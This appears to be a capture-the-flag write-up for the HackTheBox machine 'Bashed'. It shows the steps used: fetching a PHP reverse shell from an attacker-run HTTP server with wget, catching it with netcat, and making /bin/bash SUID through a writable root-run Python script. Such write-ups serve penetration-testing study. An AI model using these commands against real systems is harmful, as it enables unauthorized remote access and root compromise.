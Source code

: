 # Bashed

We just did gobuster on the main dir since on nmap we got a http running on port 80.

So we got the route `http://10.10.10.68/dev/phpbash.php`
and run a revershell command, since the usual nc and bash wont work for this one we use the python one.

[SimpleHTTPServer.py](https://github.com/enthought/Python-2.7.3/blob/master/Lib/SimpleHTTPServer.py)
[php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)

**DONT FORGET TO MODIFY THE IP AND PORT**

```
python2 SimpleHTTPServer.py 80
```

Now that our server is running we use this command on the phpbash and save it on `/var/www/html/uploads` (We found this path before with gobuster)

```
wget 10.10.14.10/shell.php
```

And we start listening

```
nc -lnvp 4444
```

It works but we are missing something, yup you got it *le classice*

* `script /dev/null -c bash`
* CTRL + Z
* `stty raw -echo; fg`
* `reset xterm`
* export TERM=xterm
* export SHELL=bash

## Scalating privileges

On `sudo -l` we found 2 things, *scriptmanager* doesnt requiere a password and it runs on /bin/bash so we do

```
sudo -u scriptmanager /bin/bash
```

On `/scripts/` we find 2 files which test.py is owned by us so we can just modify it with
so we do this on test.py

```
import os

os.system("chmod u+s /bin/bash")
```


After that we just watch for any change on the file

`watch -n 1 ls -l /bin/bash`

If it changes to `rwsr` we made it

After that we just run bash as root `bash -p`, `whoami` > root, we got it go for the flag 